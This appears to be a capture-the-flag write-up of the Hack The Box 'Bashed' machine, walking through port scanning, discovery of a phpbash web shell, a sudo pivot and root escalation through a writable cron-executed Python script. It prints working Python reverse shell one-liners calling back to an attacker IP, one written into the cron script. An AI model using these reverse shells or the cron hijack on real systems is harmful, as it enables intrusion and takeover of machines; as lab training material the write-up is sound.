








# Hack The Box - Bashed | Write-up

> **Platform:** Hack The Box &nbsp;•&nbsp; **Category:** Web / Linux Privilege Escalation &nbsp;•&nbsp; **Difficulty:** Easy
>
> **Target:** `10.129.56.14` &nbsp;•&nbsp; **Time taken:** 40 mins
>
> **Author:** Jithin Jelson

---

## Introduction

The machine we will be exploiting today is called Bashed and it is an easy difficulty Linux machine.

---

## Assessment Overview

```mermaid
flowchart LR
    A[Nmap<br/>port 80<br/>Apache 2.4.18]:::entry

    A --> B[Web enumeration]:::intel
    B --> B1[ffuf<br/>common.txt]:::intel
    B --> B2[Blog post<br/>mentions phpbash]:::ioc
    B1 --> C[/dev directory<br/>phpbash.php/]:::ioc

    C --> D[Web shell<br/>www-data]:::payload
    D --> E[user.txt<br/>/home/arrexel]:::user

    D --> F[sudo -l]:::intel
    F --> F1[no tty present<br/>sudo/su blocked]:::ioc
    F --> G[may run as<br/>scriptmanager]:::intel

    F1 --> H[pentestmonkey<br/>cheat sheet]:::payload
    G --> H
    H --> H1[bash /dev/tcp<br/>would not land]:::ioc
    H --> I[Python<br/>reverse shell]:::payload
    I --> J[Pivot to<br/>scriptmanager]:::payload

    J --> K[/scripts folder<br/>unusual location/]:::intel
    K --> K1[root-owned test.txt<br/>fresh timestamp]:::ioc
    K --> L[test.py writable<br/>by scriptmanager]:::mitre
    K1 --> M[Cron runs test.py<br/>as root every min]:::mitre
    L --> M
    M --> N[Drop reverse shell<br/>wait for cron]:::payload
    N --> O[root.txt]:::user

    classDef entry fill:#1d4ed8,stroke:#1e3a8a,color:#ffffff;
    classDef ioc fill:#0f766e,stroke:#134e4a,color:#ffffff;
    classDef intel fill:#7c3aed,stroke:#5b21b6,color:#ffffff;
    classDef mitre fill:#b45309,stroke:#78350f,color:#ffffff;
    classDef payload fill:#be123c,stroke:#881337,color:#ffffff;
    classDef user fill:#15803d,stroke:#14532d,color:#ffffff;
    linkStyle default stroke-width:2px
```



---

## What I Learned

- How to abuse a writable script that a privileged user runs on a schedule. This is a classic Linux privilege escalation via cron: root was executing `/scripts/test.py` every minute, and because scriptmanager could overwrite that file, whatever I put inside it ran as root.
- Reading the evidence for a cron job without seeing the crontab itself. A root-owned output file appearing in a directory I controlled, with a fresh timestamp, was proof on its own that root was running the script automatically and often.
- Using a Python reverse shell and trying alternatives from the pentestmonkey cheat sheet. When the bash `/dev/tcp` one-liner would not land through the web shell, the Python reverse shell was the one that gave me a stable connection back.
- Why `sudo` failed with "no tty present and no askpass program specified". The web shell had no real terminal attached, so interactive commands like `sudo` and `su` refused to run until I caught a proper reverse shell first.
- The `stty raw -echo` trick for upgrading a dumb shell into a fully interactive one. The full dance is spawn a PTY with Python, background it with Ctrl+Z, then run `stty raw -echo; fg` back on Kali, and finally `export TERM=xterm` so the terminal knows its type and screen size.
- That the person who executes the payload is the person you become. Running `test.py` myself only gave me another scriptmanager shell, so the whole trick was to plant the payload and wait for root's cron to fire it.

---

## Enumeration

We can start off with a script scan and version scan with Nmap to our target IP address.

```
nmap -sVC 10.129.56.14
```



*Figure 1 - Nmap version and script scan showing port 80 open running Apache 2.4.18*

We can see that we have port 80 open and we can see the version of Apache as well, so we can now visit the web page.



*Figure 2 - The site's blog mentions phpbash, developed on this exact server*

On visiting the web page we can see it says phpbash, so there is a good chance our site will be using PHP. We can now enumerate our site using common.txt and also enumerate for any PHP files too.

```
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.129.56.14/FUZZ
```



*Figure 3 - ffuf reveals a /dev directory among the discovered paths*

---

## Foothold: phpbash Web Shell

It seems we came across a dev directory so we checked it out, and inside it we found a phpbash.php which we opened and it revealed to us a web shell. Can we get the flag this easily?



*Figure 4 - Browsing the filesystem from the phpbash web shell and finding user.txt in /home/arrexel*

It seems so, that was a very easy box that only required enumeration.

> Where is the user flag located?

**Answer:** `/home/arrexel/user.txt`

---

## Privilege Escalation: Pivot to scriptmanager

Now we can try for privilege escalation. We can see what permissions we have with `sudo -l`.

```
sudo -l
```



*Figure 5 - sudo -l shows we can run commands as scriptmanager, but sudo su fails with "no tty present"*

It seems we can run as scriptmanager and have root access, so let's do this.

```
sudo -u scriptmanager /bin/bash
```

However it did not upgrade us to scriptmanager, so we went to pentestmonkey and used a few reverse shells, and we found the Python reverse shell helped us land a reverse shell on our box.

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.110",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```



*Figure 6 - Catching the reverse shell as www-data, then pivoting to scriptmanager with sudo -u*

---

## Privilege Escalation: Cron Abuse on /scripts

When we go back to our home directory we see that there is a scripts folder which is unusual to be there, so we checked it out.

```
cd /scripts
ls -la
```



*Figure 7 - The /scripts directory holds test.py (owned by us) and test.txt (owned by root)*

We can see that root has access to root.txt and we have access to test.py, and it seems the test.txt is getting executed on today's date, which means it is most likely a cron exploit. So we put a Python reverse shell that we used earlier inside test.py, as it seems it was executing every minute. Then we opened up a listener and caught it on 4445 and we got our root shell.

```
echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.110",4445));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"]);' > test.py
```



*Figure 8 - The cron job fires test.py as root, we catch the shell and read root.txt, solving Bashed*

> Where is the root flag located?

**Answer:** `/root/root.txt` (see Figure 8)
